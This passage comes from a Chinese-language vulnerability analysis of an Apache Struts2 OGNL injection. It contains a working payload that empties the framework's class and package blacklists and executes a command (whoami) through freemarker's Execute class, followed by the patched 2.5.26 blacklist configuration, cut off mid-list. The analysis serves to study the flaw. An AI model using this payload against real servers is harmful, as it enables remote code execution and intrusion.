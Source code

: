 ```
%25`{`(#im=#application['org.apache.tomcat.InstanceManager']).

(#bm=#im.newInstance('org.apache.commons.collections.BeanMap')).

(#vs=#request['struts.valueStack']).

(#bm.setBean(#vs)).(#context=#bm.get('context')).

(#bm.setBean(#context)).(#access=#bm.get('memberAccess')).

(#bm.setBean(#access)).

(#empty=#im.newInstance('java.util.HashSet')).

(#bm.put('excludedClasses',#empty)).(#bm.put('excludedPackageNames',#empty)).

(#cmdout=#im.newInstance('freemarker.template.utility.Execute').exec(`{`'whoami'`}`))`}`
```

首先从 application 中获得 DefaultInstanceManager 实例，调用 newInstance 方法获得 BeanMap 实例。接着先将 OgnlValueStack 存入 BeanMap 中，通过 get 方法可以获得 OgnlContext 实例，获得 OgnlContext 实例就可以通过其获得 MemberAccess 实例，接着可以通过 put 方法调用 set 方法，将其黑名单置空，黑名单置空后就可以创建一个黑名单中的类实例来执行命令了。

[![](https://p0.ssl.qhimg.com/t017e7920894aac835e.png)](https://p0.ssl.qhimg.com/t017e7920894aac835e.png)

最新版本：Struts2.5.26 中再一次增加了黑名单：

```
&lt;constant name="struts.excludedClasses"

value="

java.lang.Object,

java.lang.Runtime,

java.lang.System,

java.lang.Class,

java.lang.ClassLoader,

java.lang.Shutdown,

java.lang.ProcessBuilder,

sun.misc.Unsafe,

com.opensymphony.xwork2.ActionContext" /&gt;

&lt;constant name="struts.excludedPackageNames"

value="

ognl., java.io., java.net., java.nio., javax.,

freemarker.core., freemarker.template., freemarker.ext.jsp.,

freemarker.ext.rhino.,

sun.misc., sun.reflect., javassist.,

org.apache.velocity., org.objectweb.asm.,

```